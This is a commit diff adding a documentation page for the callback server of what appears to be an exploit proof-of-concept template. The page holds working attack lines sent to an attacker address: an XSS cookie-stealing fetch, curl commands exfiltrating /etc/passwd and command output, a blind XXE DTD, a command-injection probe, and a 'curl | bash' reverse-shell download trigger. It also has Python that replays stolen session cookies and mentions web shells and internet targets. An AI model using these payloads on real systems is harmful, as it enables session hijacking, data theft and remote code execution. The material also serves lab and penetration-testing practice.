

Before and after one commit to kwkeefer/cookiecutter-poc, a Sphinx documentation site: the page built from docs/index.rst, in a window 1280 px wide and 1400 px high, scrolled down 540 px. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 3.1.0, drawn with Linux system fonts in a browser that asks for light colours; some of the changed lines change nothing that is shown; some of the changed text lies outside the part shown.

Commit message:
http server docs

```diff
--- /dev/null
+++ b/docs/http-server.rst
@@ -0,0 +1,283 @@
+HTTP Server & Callbacks
+========================
+
+Built-in HTTP server for serving payloads and collecting callbacks via a thread-safe queue.
+
+Quick Start
+-----------
+
+.. code-block:: bash
+
+   # Start server (binds to 0.0.0.0:8000)
+   python -m your_project --server
+
+   # Specify interface and port
+   python -m your_project --server --lhost 10.10.14.5 --lport 8080
+
+Output shows all network interfaces:
+
+.. code-block:: text
+
+   ==================================================
+   [*] POC Server listening on:
+   [+] → http://10.10.14.5:8000 (tun0)
+   [...] → http://192.168.1.100:8000 (eth0)
+   Serving: /home/user/poc/payloads
+   Logs: /home/user/poc/logs/server.ndjson
+   Queue: DELETE /queue to pop events
+   ==================================================
+
+How It Works
+------------
+
+* Serves files from ``payloads/`` directory
+* Captures ``cookie`` and ``exfil`` parameters (query or path)
+* Logs all requests to ``logs/server.ndjson``
+* CORS enabled for XSS callbacks
+
+Sending Data
+------------
+
+Cookie Exfiltration
+~~~~~~~~~~~~~~~~~~~
+
+.. code-block:: javascript
+
+   // From XSS
+   fetch('http://10.10.14.5:8000/?cookie=' + btoa(document.cookie));
+
+Data Exfiltration
+~~~~~~~~~~~~~~~~~
+
+.. code-block:: bash
+
+   # File contents
+   curl "http://10.10.14.5:8000/?exfil=$(cat /etc/passwd | base64 -w0)"
+
+   # Command output
+   curl "http://10.10.14.5:8000/exfil/$(whoami)"
+
+.. code-block:: xml
+
+   <!-- Blind XXE -->
+   <!DOCTYPE foo [
+     <!ENTITY % file SYSTEM "file:///etc/passwd">
+     <!ENTITY % dtd SYSTEM "http://10.10.14.5:8000/xxe/exfil.dtd">
+     %dtd;
+   ]>
+
+.. code-block:: bash
+
+   # Command injection confirmation
+   test; curl http://10.10.14.5:8000/cmdi/confirmed
+
+Retrieving Data
+---------------
+
+Use ``server_hooks`` module to retrieve captured data from the queue.
+
+Get Cookie
+~~~~~~~~~~
+
+.. code-block:: python
+
+   from your_project.utils.server_hooks import get_cookie
+   from your_project.utils.cookie import parse_cookie_string
+   import requests
+
+   # Wait for callback
+   cookie_str = get_cookie(timeout=30)
+   if cookie_str:
+       cookies = parse_cookie_string(cookie_str)
+       r = requests.get("http://target/admin", cookies=cookies)
+
+Get Exfil Data
+~~~~~~~~~~~~~~
+
+.. code-block:: python
+
+   from your_project.utils.server_hooks import get_exfil
+
+   data = get_exfil(timeout=30)
+   if data and "root:x:0:0" in data:
+       print("[+] Successfully read /etc/passwd!")
+
+Queue Management
+~~~~~~~~~~~~~~~~
+
+.. code-block:: python
+
+   from your_project.utils.server_hooks import drain_queue, get_event
+
+   # Clear old events
+   drain_queue()
+
+   # Get any event type
+   event = get_event(timeout=30, wait=True)
+   # Returns: {'type': 'cookie|exfil', 'data': '...', 'timestamp': '...'}
+
+   # Custom server address
+   cookie = get_cookie(server='http://192.168.1.100:8080', timeout=30)
+
+Payload Directory
+-----------------
+
+Files in ``payloads/`` are automatically served:
+
+.. code-block:: text
+
+   payloads/
+   ├── xss/
+   │   ├── steal-cookie.js
+   │   └── steal-all.js
+   ├── xxe/
+   │   └── xxe-template.dtd
+   └── shells/
+       ├── cmd.php
+       ├── cmd.jsp
+       └── cmd.aspx
+
+Access at: ``http://10.10.14.5:8000/xss/steal-cookie.js``
+
+Generating Payloads
+~~~~~~~~~~~~~~~~~~~
+
+Utility modules automatically write payloads to ``payloads/`` for serving.
+
+**Reverse Shells:**
+
+.. code-block:: python
+
+   from your_project.utils.reverse_shells import bash_shell, python_shell, php_shell
+
+   # Generate bash shell → payloads/shells/rev_bash.sh
+   path = bash_shell("10.10.14.5", 4444)
+   # Returns: "shells/rev_bash.sh"
+   # Served at: http://10.10.14.5:8000/shells/rev_bash.sh
+
+   # Generate PHP shell → payloads/shells/rev_php.php
+   php_path = php_shell("10.10.14.5", 4444)
+   # Served at: http://10.10.14.5:8000/shells/rev_php.php
+
+   # Trigger download on target
+   requests.post(target, data={
+       "cmd": f"curl http://10.10.14.5:8000/{path} | bash"
+   })
+
+**XXE DTD Files:**
+
+.. code-block:: python
+
+   from your_project.utils.xxe import oob_dtd, quick_test
+
+   # Generate DTD → payloads/xxe/xxe.dtd
+   dtd_path = oob_dtd("http://10.10.14.5:8000", "/etc/passwd")
+   # Returns: "xxe/xxe.dtd"
+   # Served at: http://10.10.14.5:8000/xxe/xxe.dtd
+
+   # Quick test generates DTD and returns payload
+   payload = quick_test("http://10.10.14.5:8000", "/etc/passwd")
+   requests.post(target, data=payload, headers={"Content-Type": "application/xml"})
+
+   # Get exfiltrated data
+   from your_project.utils.server_hooks import get_exfil
+   data = get_exfil(timeout=30)
+
+Example: XSS Cookie Theft
+~~~~~~~~~~~~~~~~~~~~~~~~~
+
+**Inject payload:**
+
+.. code-block:: html
+
+   <script src="http://10.10.14.5:8000/xss/steal-cookie.js"></script>
+
+**Retrieve in exploit:**
+
+.. code-block:: python
+
+   from your_project.utils.server_hooks import get_cookie, drain_queue
+   from your_project.utils.cookie import parse_cookie_string
+
+   drain_queue()  # Clear old events
+
+   # Inject XSS (your code here)
+   inject_xss(target, "http://10.10.14.5:8000/xss/steal-cookie.js")
+
+   # Wait for callback
+   cookie_str = get_cookie(timeout=30)
+   cookies = parse_cookie_string(cookie_str)
+
+   # Use stolen cookie
+   r = requests.get(f"{target}/admin", cookies=cookies)
+
+Server Logs
+-----------
+
+All requests logged to ``logs/server.ndjson``:
+
+.. code-block:: json
+
+   {
+     "timestamp": "2025-10-22T13:45:30.123456",
+     "client": "192.168.1.100:54321",
+     "method": "GET",
+     "path": "/cookie/c2Vzc2lvbj1hYmMxMjM=",
+     "query": {"source": ["xss"]},
+     "headers": {"User-Agent": "...", "Host": "..."},
+     "body": ""
+   }
+
+.. code-block:: bash
+
+   # View logs
+   tail -f logs/server.ndjson | jq .
+
+   # Search for cookies
+   grep '"path":"/cookie' logs/server.ndjson | jq .
+
+Event Schema
+------------
+
+**Cookie Event:**
+
+.. code-block:: json
+
+   {
+     "type": "cookie",
+     "data": "session=abc123; token=xyz789",
+     "raw": "c2Vzc2lvbj1hYmMxMjM7IHRva2VuPXh5eno3ODk=",
+     "timestamp": "2025-10-22T13:45:30.123456"
+   }
+
+**Exfil Event:**
+
+.. code-block:: json
+
+   {
+     "type": "exfil",
+     "data": "/etc/passwd content or XXE output",
+     "timestamp": "2025-10-22T13:45:30.123456"
+   }
+
+Tips
+----
+
+**Clear queue before each test:**
+
+.. code-block:: python
+
+   from your_project.utils.server_hooks import drain_queue
+   drain_queue()
+
+**Choose the right interface:**
+
+* Use ``tun0`` IP for HackTheBox/TryHackMe
+* Use ``eth0``/``wlan0`` for local network
+* Use public IP for internet targets
+
+**Base64 encoding bypasses filters:**
+
+.. code-block:: javascript
+
+   fetch('http://10.10.14.5:8000/?cookie=' + btoa(document.cookie));
--- a/docs/index.rst
+++ b/docs/index.rst
@@ -11,6 +11,7 @@
 
    installation
    quickstart
+   http-server
    payloads
    examples
    workflows
@@ -21,7 +22,7 @@
 
 * **Quick POC Creation** - Generate new projects in seconds
 * **Built-in Utilities** - Common exploit patterns
-* **HTTP Servers** - Log callbacks, serve payloads
+* **HTTP Callback Server** - Event queue, automatic data capture, payload serving
 * **Reverse Shell Management** - Generate and catch shells directly in Python
 * **XSS & XXE Helpers** - Pre-built payload generators
 
```
